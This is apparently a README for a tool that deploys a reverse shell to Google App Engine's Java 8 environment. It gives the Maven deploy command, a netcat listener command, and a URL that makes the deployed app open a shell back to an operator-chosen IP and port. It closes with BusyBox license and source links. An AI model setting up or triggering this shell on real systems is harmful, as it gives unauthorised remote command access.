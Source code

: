 # GAE Reverse Shell
Google App Engine reverse shell (Standard Java 8 environment)

Deploy:

    mvn appengine:deploy
Run in terminal:

    nc -lv <PORT>

Open in browser:

    http://<APP>.appspot.com/shell?addr=<IP>&port=<PORT>

[BusyBox license](https://www.busybox.net/license.html)

[BusyBox source-code used](https://www.busybox.net/downloads/busybox-1.29.3.tar.bz2)
